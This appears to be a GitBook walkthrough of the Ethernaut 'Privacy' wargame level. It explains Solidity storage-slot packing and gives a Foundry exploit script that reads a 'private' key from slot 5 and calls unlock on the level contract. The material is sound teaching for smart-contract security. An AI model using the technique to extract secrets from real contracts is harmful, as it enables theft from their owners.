 # Level 12 - Privacy ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/12" %}

### Level Setup

{% hint style="info" %}
The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

* Understanding how storage works
* Understanding how parameter parsing works
* Understanding how casting works

Tips:

* Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Privacy.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
{% endcode %}

### Exploit

The data is a `private` state variable, which means it's not accessible to other contracts, but can be read externally by a script.

Storage slots explained:

```solidity
contract Privacy {
    bool public locked = true;                             // slot 0
    uint256 public ID = block.timestamp;                   // slot 1
    uint8 private flattening = 10;                         // slot 2 (packed)
    uint8 private denomination = 255;                      // slot 2 (packed)
    uint16 private awkwardness = uint16(block.timestamp);  // slot 2 (packed)
    bytes32[3] private data;                               // slot 3, 4, and 5
}
```

1. `bool public locked`: This occupies slot 0. Each state variable takes up a single slot unless it is part of a struct or an array. `bool` takes 1 byte, but an entire 32-byte slot is allocated for it.
2. `uint256 public ID`: This occupies slot 1. `uint256` requires 32 bytes (1 full slot).
3. `uint8 private flattening`: This will start in slot 2. `uint8` only takes 1 byte.
4. `uint8 private denomination`: Since `uint8` also takes only 1 byte, it is packed into slot 2 along with `flattening`.
5. `uint16 private awkwardness`: `uint16` takes 2 bytes. Solidity packs this into slot 2 along with the other `uint8` values because they collectively fit within 32 bytes.
   * Slot 2 looks like this (in bytes): `flattening (1) + denomination (1) + awkwardness (2) + 28 bytes padding = 32 bytes`
6. `bytes32[3] private data`: Arrays and structs are always stored in separate slots. The array `data` has 3 elements of type `bytes32`, and each `bytes32` takes 32 bytes (1 full slot).
   * `data[0]` is stored in slot 3.
   * `data[1]` is stored in slot 4.
   * `data[2]` is stored in slot 5.

Therefore, `data[2]` is in slot 5 because it is the third element of the `bytes32[3]` array, and each element of this array occupies its own 32-byte storage slot. The preceding variables occupy slots 0 through 2, with the array `data` starting at slot 3 and extending to slots 4 and 5 for its elements.

Once found, cast it as `bytes16` to truncate the packed zeros.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-12

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-12

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level12.s.sol" %}

{% code title="script/Level12.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                        LEVEL 12 - PRIVACY                    │
// ================================================================
interface IPrivacy {
    function unlock(bytes16 _key) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IPrivacy targetContract = IPrivacy(targetContractAddress);

        bytes16 key = bytes16(vm.load(targetContractAddress, bytes32(uint256(5))));

        vm.startBroadcast();
        targetContract.unlock(key);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Nothing in the Ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Tools such as Foundry or Ethers can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_12_Privacy.md" %}
